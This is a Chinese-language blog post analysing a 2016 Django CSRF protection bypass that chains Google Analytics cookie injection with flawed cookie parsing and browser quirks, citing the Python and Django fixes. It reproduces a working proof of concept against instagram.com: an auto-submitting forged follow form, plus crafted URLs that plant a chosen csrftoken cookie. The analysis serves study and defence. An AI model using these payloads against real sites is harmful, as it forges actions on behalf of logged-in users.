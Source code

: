 ```yaml
---
id: 753
layout: post
title: 'Django CSRF 防护绕过漏洞分析'
date: 2016-09-27 13:28:00
author: virusdefender
tags: 
---
```


原始漏洞链接 https://hackerone.com/reports/26647

## 使用 Google Analytics 进行 Cookie 注入

 - Google Analytics 会设置这样的 Cookie 来追踪用户访问

```
__utmz=123456.123456789.11.2.utmcsr=[HOST]|utmccn=(referral)|utmcmd=referral|utmcct=[PATH]
```
比如

```
__utmz=123456.123456789.11.2.utmcsr=blackfan.ru|utmccn=(referral)|utmcmd=referral|utmcct=/path/
```

 - 用户可以完全控制 referer 中的 path，然后在放入`__utmz`的时候没有过滤


## 不同的 web server 对 Cookie parse 结果的不同

 - 一个正常的Cookie是这样子的 `Cookie: param1=value1; param2=value2;`
 - 但是很多 web server 也可以接收使用逗号分隔的


```
Cookie: param1=value2, param2=value2
Cookie: param1=value2,param2=value2
``` 
 
Python 和 Django 使用了不正确的正则表达式来 parse Cookie，导致用户也可以使用`[]`来作为分隔符 `Cookie: param1=value1]param2=value2`
  
参考
  
 - https://docs.python.org/3/library/http.cookies.html
 - http://hg.python.org/cpython/file/3.4/Lib/http/cookies.py#l432
 - http://tools.ietf.org/html/rfc2109
 - http://tools.ietf.org/html/rfc2068

例子
 
```python
 >>> from http import cookies
 >>> C = cookies.SimpleCookie()
 >>> C.load('__utmz=blah]csrftoken=x')
 >>> C
 <SimpleCookie: csrftoken='x'>
```

## 不同的浏览器对 Cookie 处理结果的不同

除了 Safari 之外，其他的浏览器都可以在 Cookie value 中使用空格、逗号和`[]`字符。

而且 Chrome 只可以处理有限的 Cookie 属性，比如

```
Set-Cookie: test=test; domain=.google.com; domain=.google.com; domain=.google.com; domain=.google.com; domain=.google.com; domain=.google.com; domain=.google.com; domain=.google.com; domain=.google.com; domain=.google.com; domain=.google.com; domain=.google.com; domain=.google.com; domain=.google.com; domain=.google.com; domain=blah.blah.blah.google.com;
```

最终只能给`.google.com`而不是`blah.blah.blah.google.com`设置上 Cookie

## 综合在一起利用

### 条件是

 - 网站使用 Google Analytics
 - 网站使用的 server 或后端有 Cookie 解析的问题，比如 Django
 - 网站使用了基于 Cookie 的 CSRF 防护方法

### 结果
 
 - 我们可以设置任意的 Cookie 或者覆盖已有的 Cookie
 - 这个网站就有 CSRF 防护绕过的问题
 
### POC

使用 Chrome 可以在 instagram.com 上复现这个问题

 - 打开 Chrome 隐身模式
 - 登录 instagram.com
 - 点击下面的链接，然后稍等
 - 然后你就会关注了 http://instagram.com/black2fan

`http://blackfan.ru/facebookbugbounty/nouysqaqfbskgobuqkknoitvyqmjgony_instagram.html`的源码是

```html
<form 
action="http://instagram.com/web/friendships/1312928755/follow/?ref=emptyfeed" 
id="csrf" 
method="POST">
      <input type="hidden" name="csrfmiddlewaretoken" value="x" />
      <input type="submit" value="Submit request" />
</form>
<script>
      function xxx() {
        document.getElementById('csrf').submit();
      }
</script>
<iframe 
onload="xxx()" 
src="http://blackfan.ru/r/,]csrftoken=x,;domain=.instagram.com;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;?r=http://blog.instagram.com/"/>
```

### 描述

 - 用户已经登录了 instagram.com
 - 让用户访问下面的链接，同时假设他没有访问过`blog.instagram.com`，也没有这个子域名的`__utmz`。
 
```
http://blackfan.ru/r/,]csrftoken=x,;domain=.instagram.com;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;?r=http://blog.instagram.com/
```

这时候，Cookie 就会使用新的 path 和 domain，`.instgram.com` 就会被设置一个新的 Cookie `_utmz=90378079.1401435337.1.1.utmcsr=blackfan.ru|utmccn=(referral)|utmcmd=referral|utmcct=/r/,]csrftoken=x`

 - 这时候，服务器就会认为 Cookie 中的`__utmz`是错误的格式，CSRF token是`x`
 - 使用 CSRF token 提交上面的表单

## 修复

Python 的 patch 是 https://hg.python.org/cpython/rev/270f61ec1157，但是后来发现还是有问题的，比如

```python
C = cookies.SimpleCookie()
C.load('__utmz=blah csrftoken=x')
C.load('__utmz=blah\x09csrftoken=x')
C.load('__utmz=blah\x0bcsrftoken=x')
C.load('__utmz=blah\x0ccsrftoken=x') 
```

仍然会被解析为两个 Cookie，但是实际的浏览器处理并不一样

 - IE 浏览器会把`\x09 \x0b \x0c`替换为下划线
 - Chrome 会忽略这种 Cookie
 - Google Analytics 会把空格替换为 `%20`，当然这不重要，因为其他的 JS 也可能有问题

但是 Firefox 是支持所有的字符的，所以可以这样利用
 - 移除 instgram.com 的所有 Cookie
 - 使用 Firefox 打开 `http://instagram.com/?utm_source=1&utm_medium=2&utm_campaign=3&utm_term=4&utm_content=5%09csrftoken=x#`
 - 刷新页面，你会发现 `csrftoken=x`

最近 Django 修复了这个问题，https://www.djangoproject.com/weblog/2016/sep/26/security-releases/，使用了简单的 parse Cookie 的方法，https://github.com/django/django/commit/d1bc980db1c0fffd6d60677e62f70beadb9fe64a，虽然不太标准，但是已经足够了。

## 思考
 - Twitter的这个公开的更早 https://hackerone.com/reports/14883
 - 这个可以称为是 HTTP 参数污染了，这个手段在绕过部分WAF防护的时候还是有用的。比如`ngx_lua_waf` 的绕过，因为乌云无法访问，我截图放出来 https://dn-virusdefender-blog.qbox.me/ngx_lua_waf_hpp.png
 - https://www.owasp.org/index.php/Testing_for_HTTP_Parameter_pollution_(OTG-INPVAL-004) https://www.exploit-db.com/docs/17534.pdf 这里有一些总结
 - 覆盖Cookie进行绕过CSRF防护 https://www.leavesongs.com/HTML/zhihu-xss-worm.html
 - 很多 RFC 规范太蛋疼
 
